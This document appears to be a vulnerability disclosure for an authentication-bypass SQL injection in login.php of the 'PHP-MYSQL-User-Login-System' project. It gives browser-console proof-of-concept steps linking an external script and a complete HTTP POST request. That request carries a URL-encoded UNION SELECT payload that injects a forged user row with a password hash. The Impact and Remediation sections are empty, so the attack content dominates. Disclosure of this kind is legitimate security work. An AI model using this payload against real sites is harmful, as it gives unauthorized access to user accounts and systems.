 # keerti1924 / PHP-MYSQL-User-Login-System - login.php SQL Injection

## Vendor Homepage:
[PHP-MYSQL-User-Login-System](https://github.com/keerti1924/PHP-MYSQL-User-Login-System)

## Impact

## Proof of Concept
Step 1: Visit the /login.php
Step 2: Open Browser Console
Step 3: Run [SQLI Auth POC](https://raw.githubusercontent.com/skid-nochizplz/skid-nochizplz/main/TrashBin/CVE/keerti1924%20PHP-MYSQL-User-Login-System/SQLI%20Auth%20POC.js)
Step 4: User will be redirected to home.php

## HTTP Request Example

```http request
POST /login.php HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

email = '%20UNION%20SELECT%201%20AS%20id%2c%20'NoChizPlz'%20AS%20username%2c%20'nochizplz%40nochizplz.com'%20AS%20email%2c%20'%242a%2412%24xkhwduBCkSl3tPhWVokC%2fOmrhboA0gxDWaVLl4uPLr2iSbXEtNdCq'%20AS%20password%20%23&password=nochizplz&login=Login
```

### Proof with Video:
![Vulnerability Proof](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20PHP-MYSQL-User-Login-System/SQLI%20Auth%20Proof.gif?raw=true)

## Remediation

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)